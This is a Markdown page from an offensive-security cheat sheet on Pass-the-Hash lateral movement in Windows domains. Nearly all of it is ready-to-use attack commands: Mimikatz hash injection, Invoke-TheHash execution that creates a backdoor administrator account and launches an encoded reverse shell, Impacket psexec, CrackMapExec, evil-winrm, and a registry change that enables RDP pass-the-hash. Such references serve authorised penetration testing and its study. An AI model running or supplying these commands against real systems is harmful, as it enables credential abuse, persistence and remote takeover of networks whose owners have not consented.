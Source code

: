 # Pass the Hash

:::tip

Follow [this link](/lateral-movement/windows/pass-the-hash) to access the Pass the Hash section.

:::

## Mimikatz

```batch
mimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /rc4:<hash> /domain:<domain> /run:cmd.exe" exit
```

## Invoke-TheHash

### SMBExec

```powershell
Import-Module .\Invoke-TheHash.psd1
Invoke-SMBExec -Target <ip> -Domain <domain> -Username <user> -Hash <hash> -Command "net user attacker Password123 /add && net localgroup administrators attacker /add" -Verbose
```

### WMIExec with reverse shell

Create a reverse shell using [RevShells](https://www.revshells.com/).

```powershell
Import-Module .\Invoke-TheHash.psd1
Invoke-WMIExec -Target <target> -Domain <domain> -Username <user> -Hash <hash> -Command "powershell -e <base64 encoded payload>"
```

## Impacket

### PsExec

```bash
impacket-psexec <user>@<ip> -hashes :<hash>
```

## CrackMapExec

```bash
crackmapexec smb <ip> -u <user> -d . -H <hash>
```

:::info Local Authentication

If we want to perform the same actions but attempt to authenticate to each host in a subnet using the local administrator password hash, we could add `--local-auth` to our command.

:::

## evil-winrm

```bash
evil-winrm -i <ip> -u <user> -H <hash>
```

## RDP with GUI

:::caution Restricted Admin Mode

Restricted Admin Mode, which is disabled by default, should be enabled on the target host.

This can be enabled by adding a new registry key `DisableRestrictedAdmin (REG_DWORD)` under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` with the value of `0`. It can be done using the following command:

```batch
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

:::

### xfreerdp

```bash
xfreerdp /v:<ip> /u:<user> /pth:<hash>
```
